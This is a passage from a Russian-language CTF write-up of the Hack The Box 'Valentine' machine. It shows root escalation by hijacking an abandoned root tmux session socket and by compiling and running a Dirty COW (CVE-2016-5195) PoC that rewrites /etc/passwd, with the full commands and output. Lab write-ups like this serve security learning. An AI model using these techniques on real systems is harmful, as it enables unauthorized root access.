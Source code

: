 ```text
tmux -S /.devs/dev_sess
exit
```

Ооо, чувствую себя ребенком ~~на горбушке~~ в конфетной лавке, нам оставили **dev**-сессию! Вкратце о `tmux`: это такая утилита, позволяющая управлять терминальными сессиями, в том числе и "замораживать" текущее их состояние с возможностью последующего возобновления. Что мы и сделаем — восстановим приостановленную сессию из сокета `/.devs/dev_sess`, предварительно посмотрев, какие сессии доступны в принципе:
```text
hype@Valentine:~$ tmux -S /.devs/dev_sess ls
0: 1 windows (created Tue Jul 17 12:47:17 2018) [80x24]

hype@Valentine:~$ tmux -S /.devs/dev_sess a -t 0
root@Valentine:/# whoami
root

root@Valentine:/# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
Забираем флаг рута и идем радоваться жизни:
```text
root@Valentine:/# cat /root/root.txt
f1bb6d75????????????????????????
```

## PrivEsc: hype → root. Способ 2
Настало время для *грязных* (никогда не надоест :joy:) забав. Повысим привилегии до суперпользователя, вызвав состояние гонки в механизме копирования при записи, или просто проэксплуатируем уязвимость [Dirty COW](https://ru.wikipedia.org/wiki/%D0%A3%D1%8F%D0%B7%D0%B2%D0%B8%D0%BC%D0%BE%D1%81%D1%82%D1%8C_Dirty_COW "Уязвимость Dirty COW — Википедия") ([CVE-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195 "NVD - CVE-2016-5195")). Из [большого количества](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs "PoCs · dirtycow/dirtycow.github.io Wiki") PoC-ов для демонстрации я обычно выбираю вот [этот](https://github.com/FireFart/dirtycow/blob/master/dirty.c "dirtycow/dirty.c at master · FireFart/dirtycow") (основанный на подмене root-записи в `/etc/password`) как наиболее стабильный и полностью обратимый.

Скачав исходник на машину-жертву, соберем и запустим:
```text
hype@Valentine:~$ gcc -pthread dirty.c -o dirty -lcrypt
hype@Valentine:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: qwe123!@#
Complete line:
firefart:fiDBsH4uAQ9kk:0:0:pwned:/root:/bin/bash

mmap: 7f2b85843000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'qwerty'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'qwerty'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

